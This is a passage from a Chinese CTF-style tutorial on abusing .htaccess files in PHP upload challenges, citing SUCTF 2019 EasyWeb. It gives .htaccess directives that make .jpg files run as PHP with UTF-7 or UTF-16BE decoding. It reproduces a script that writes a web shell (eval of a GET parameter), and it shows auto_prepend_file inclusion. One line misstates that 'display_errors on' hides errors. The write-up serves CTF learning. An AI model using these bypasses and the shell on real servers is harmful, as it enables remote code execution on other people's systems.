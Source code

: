 我们接下来要做的就是利用. htaccess 文件把他进行 UTF-7 解码。

我们再写入一个. htaccess 文件内容如下：

```
#define 4c11f3876d494218ff327e3ca6ac824f\_width 1337#define 4c11f3876d494218ff327e3ca6ac824f\_height 1337AddType application/x-httpd-php .jpgphp\_flag display\_errors onphp\_flag zend.multibyte 1php\_value zend.script\_encoding "UTF-7"
```

前 3 行在上面已经讲过，这里不再赘述。

第 4 行中的 php\_flag，后面跟着 display\_errors on，本句的作用是关闭错误提示，也就是差不多相当于 error\_reporting(0)；

第 5 行中的 php\_flag，把 zend.multibyte 的值设置为 1，原因是在使用 UTF-7、SJIS、BIG5 等在多字节字符串数据中包含特殊字符的字符编码是要启用 zend.multibyte 的，如果是 UTF-8 编码的话则不需要这个选项。

最后一句是关键点了，php\_value 中设置了 zend.script\_encoding "UTF-7"，本句的作用是对上传的文件进行一个 UTF-7 的解码。

这里我直接在本地 phpstudy 直接写入. htaccess 和 shell.jpg，测试了一下是可行的：

![](https://mmbiz.qpic.cn/mmbiz_png/Go7NSXrKWd6Jd36S86K7pfK7YG3Ywoibbz6kWuNDOQJVa5XYicxXiaJDtQrdwGhN850wqwj6DjQOL0qTLYhShq9Fg/640?wx_fmt=png)

要注意的是，在本地 phpstudy 写入. htaccess 文件的话，php 的版本要选择不带 nts 的。

在 \[SUCTF 2019\]EasyWeb 这道题里面就可以用到这个方法，但不局限于这种，在看其他师傅的 writeup 中，发现本题也可以通过设置 utf-16be 来进行绕过，这里借用一下网上的一键生成. htaccess 脚本。

```
SIZE\_HEADER = b"\\n\\n#define width 1337\\n#define height 1337\\n\\n"def generate\_php\_file(filename, script):    phpfile = open(filename, 'wb')    phpfile.write(script.encode('utf-16be'))    phpfile.write(SIZE\_HEADER)    phpfile.close()def generate\_htacess():    htaccess = open('.htaccess', 'wb')    htaccess.write(SIZE\_HEADER)    htaccess.write(b'AddType application/x-httpd-php .lethe\\n')    htaccess.write(b'php\_value zend.multibyte 1\\n')    htaccess.write(b'php\_value zend.detect\_unicode 1\\n')    htaccess.write(b'php\_value display\_errors 1\\n')    htaccess.close()generate\_htacess()generate\_php\_file("shell.lethe", "<?php eval($\_GET\['cmd'\]); die(); ?>")
```

### **进行文件包含**

在刚刚提到的 php\_value 的指令中，也就是 php.ini 中有两项：

在所有页面的顶部与底部 require 文件

*   auto\_prepend\_file 在页面顶部加载文件
    
*   auto\_append\_file 在页面底部加载文件
    

我们可以利用这个将 1.php 文件包含进所有的 php 页面

```
php\_value auto\_prepend\_file 1.php
```

![](https://mmbiz.qpic.cn/mmbiz_png/Go7NSXrKWd6Jd36S86K7pfK7YG3YwoibbC6a7hy7G7mgiaF6ORQ1IZjUaV2rvQibAcPXMibQIvSPD5D5XnsV4ynVZA/640?wx_fmt=png)

可以看到 1.php 成功包含进去 shell.php 里面了。  

这里我们甚至可以利用伪协议配合做一个编码，.htaccess 如下：
